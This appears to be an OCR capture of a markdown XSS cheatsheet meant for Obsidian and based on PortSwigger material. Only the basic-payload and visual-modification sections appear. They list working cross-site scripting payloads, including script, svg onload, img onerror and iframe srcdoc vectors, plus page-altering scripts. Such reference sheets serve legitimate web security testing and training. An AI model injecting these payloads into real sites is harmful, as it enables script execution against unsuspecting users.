 # 🛠️ Ultimate XSS Cheatsheet for Obsidian

```markdown
# 🎯 Cross-Site Scripting (XSS) Master Cheatsheet

*Based on PortSwigger Research & Web Security Academy*
*Last Updated: {{date}}*

---

## 📖 Table of Contents
- [[#🔰 Basic Payloads]]
- [[#🎨 Visual Modifications]]
- [[#🧩 DOM Manipulation]]
- [[#📡 External Interaction]]
- [[#⚡ Useful Commands]]
- [[#🎭 Event Handlers]]
- [[#🔣 Encoding & Obfuscation]]
- [[#⚛️ Framework-Specific]]
- [[#🛡️ WAF Bypass Techniques]]
- [[#📛 Classic & Legacy Vectors]]

---

## 🔰 Basic Payloads

### Standard Alert Payloads
```html
<script>alert(document.domain)</script>
<svg onload=alert(document.domain)>
<img src=x onerror=alert(document.domain)>
<body onload=alert(document.domain)>
```

### Alternative Execution
```html
<script>print()</script>
<plaintext>
<iframe srcdoc="<script>alert(1)</script>">
```

---

## 🎨 Visual Modifications

### UI Manipulation
```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://example.com/image.jpg"</script>
<script>document.title = 'HackTheBox Academy'</script>
```

---